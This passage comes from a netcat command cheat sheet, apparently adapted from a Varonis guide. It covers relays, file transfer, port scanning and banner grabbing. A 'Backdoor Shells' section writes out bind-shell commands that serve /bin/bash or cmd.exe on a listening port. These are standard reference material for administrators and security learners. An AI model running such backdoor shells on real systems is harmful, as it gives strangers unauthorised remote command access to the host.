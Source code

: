 **nc [host] [port] > relay.bat** – open a relay connection

**nc -l -p [port] -e relay.bat** – connect to relay

### Netcat Relays on Linux

**nc -l -p [port] 0 (less than) backpipe (pipe) nc [client IP] [port] (pipe) tee backpipe**

### Netcat File Transfer

**nc [host] [port] (greater than) file_name.out**– send a file

**nc [host] [port] (less than) file_name.in** – receive a file

### Netcat Port Scanner

**nc -zv site.com 80** – scan a single port

**nc -zv hostname.com 80 84** – scan a set of individual ports

**nc -zv site.com 80-84** – scan a range of ports

### Netcat Banners

**echo “” | nc -zv -wl [host] [port range]** – obtain the TCP banners for a range of ports

### Netcat Backdoor Shells

**nc -l -p [port] -e /bin/bash** – run a shell on Linux

**nc -l -p [port] -e cmd.exe** – run a shell on [Netcat for Windows](https://www.varonis.com/blog/how-to-use-powershell-objects-and-data-piping/?hsLang=en)

## Additional Netcat Resources

- [Using Netcat with RedHat](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/networking_guide/sec-managing_data_using_the_ncat_utility)
- [Introduction to Netcat on Youtube](https://www.youtube.com/watch?v=Dbz8wQLz2Sw)
- [Netcat for Security](https://resources.infosecinstitute.com/netcat-uses/#gref)
- [Fun lessons with Netcat](https://www.instructables.com/id/More-Fun-with-netcat/)

**Credit:** This information was adapted from an excellent guide on [Varonis](https://www.varonis.com/blog/netcat-commands). Be sure to check out the original post for more details.

<iframe width="560" height="315" src="https://www.youtube.com/embed/Mpp2ze8Myzc?si=0AWnq_Qkde4cX5SC" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

**Credit:** This information was adapted from an excellent guide on [YouTube](https://www.youtube.com/watch?v=Mpp2ze8Myzc). Be sure to check out the original post for more details.

<iframe width="560" height="315" src="https://www.youtube.com/embed/bXCeFPNWjsM?si=8PF9x8qzRBbjNsTA" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
